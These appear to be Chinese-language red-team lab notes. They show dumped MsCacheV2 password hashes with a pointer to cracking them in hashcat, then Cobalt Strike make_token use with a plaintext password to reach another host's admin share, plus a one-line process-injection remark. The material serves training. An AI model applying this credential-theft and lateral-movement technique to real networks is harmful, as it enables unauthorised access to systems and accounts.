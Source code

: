 ```
[NL$2 - 5/17/2021 2:00:46 PM]
RID       : 0000046e (1134)
User      : DEV\svc_mssql
MsCacheV2 : 3f903860f7b6861a702eb9d6509d9da6

[NL$3 - 5/17/2021 2:00:50 PM]
RID       : 00000462 (1122)
User      : DEV\jking
MsCacheV2 : 673e2fe26e26e79c58379168b79890f6
```

可以使用hashcat破解上面的哈希，例子见[这里](https://hashcat.net/wiki/doku.php?id=example_hashes)


# Make Token

Cobalt Strike中的```make_token```命令使用[LogonUserA](https://docs.microsoft.com/en-gb/windows/win32/api/winbase/nf-winbase-logonusera) API，该API接收用户的用户名、域和明文密码以及登录类型。make_token传递LOGON32_LOGON_NEW_CREDENTIALS类型，MS文档中描述为：

>This logon type allows the caller to clone its current token and specify new credentials for outbound connections. The new logon session has the same local identifier but uses different credentials for other network connections.


使用场景：
bfarmer是srv-1计算机的管理员

bfarmer不是srv-2计算机的管理员

bfarmer现在不能登录srv-2计算机

jking是srv-2计算机的管理员

jking曾经在srv-1计算机登录(因此在srv-1中留有登录的token)

此时，bfarmer用户可以使用```make_token```命令（需要jking的明文密码）利用jking的身份克隆token登录B计算机（但是getuid显示还是bfarmer的身份）

```
beacon> make_token DEV\jking Purpl3Drag0n
[+] Impersonated DEV\bfarmer
```

```
beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
```

# Process Injection

就是msf里的进程迁移
